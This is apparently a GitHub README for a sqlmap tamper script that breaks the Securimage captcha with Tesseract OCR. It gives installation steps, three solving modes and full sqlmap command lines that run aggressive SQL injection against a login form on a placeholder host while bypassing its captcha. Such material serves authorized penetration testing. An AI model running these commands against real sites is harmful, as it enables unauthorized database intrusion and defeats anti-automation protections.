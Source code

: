 ## Securimage Tamper

SQLMap tamper for breaking securimage captcha!

# Installation

Put files into `sqlmap/tamper` or any related to sqlmap `tamper` folder

# Usages

Always make `--tamper` have spaces between `--tamper` and `securimage`. Examples: `--tamper securimage url_image params_captcha cookie_session tesseract_psm tesseract_oem tesseract_dpi tesseract_c(optional)`

## securimage tamper have 3 modes

- math

Automatically evaluate math expressions

- character

Manually input character

- easy

Automatically input easy recognize character

### Full Examples

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper secureimagecaptcha http://examples.com/securimage_show.php captcha_code "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXX" "13 1 100 tessedit_char_whitelist=1234567890x-+"
```

### Examples With Another Tamper

```
sqlmap --url "http://examples.com/index.php" --data "username=a&password=a" --method POST --dbms=mysql --cookie "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXXX" --level 5 --risk 3 --random-agent -v 3 --tamper=varnish,luanginx --tamper secureimagecaptcha http://examples.com/securimage_show.php captcha_code "PHPSESSID=XXXXXXXXXXXXXXXXXXXXXXXXXX" "13 1 100 tessedit_char_whitelist=1234567890x-+"
```

